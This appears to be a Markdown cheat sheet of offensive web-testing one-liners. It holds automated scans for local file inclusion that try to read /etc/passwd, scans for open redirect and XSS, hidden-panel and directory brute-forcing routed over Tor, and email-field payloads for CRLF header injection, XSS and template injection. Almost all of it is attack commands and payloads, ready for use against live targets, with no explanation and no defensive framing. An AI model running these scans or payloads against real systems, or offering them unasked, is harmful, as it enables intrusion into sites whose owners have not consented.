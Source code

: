 
## Local File Inclusion lfi

```bash
gau HOST | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```


## Open-redirect

```bash
export LHOST="URL"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

## xss

```bash
gospider -S URLS.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a |  dalfox pipe   --only-poc r --silence    --ignore-return 302,404,403 | tee OUT.txt
```

##	Find Hidden Servers and/or Admin Panels

```bash
ffuf -c -u URL -H "Host: FUZZ" -w FILE.txt 
```

## gizli dizinleri bulmak için
```bash
dirsearch -l domain.com-sub.txt  -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,log,xml,js,json --deep-recursive --force-recursive --exclude-sizes=0B --random-agent --tor --full-url -o domain.com-dirsearch-output.txt



gobuster dir -u https://siteniz.com/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --wildcard
```



## **Header Injection**
```
"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com
"recipient@test.com>\r\nRCPT TO:<victim+"@test.com


## **XSS Injection**
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
test+”<%= 7*7 %>’(</script></style></title></textarea><svg/onload=al\u0065rt`1`>)@example
.com


## **SST Injection**
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com


```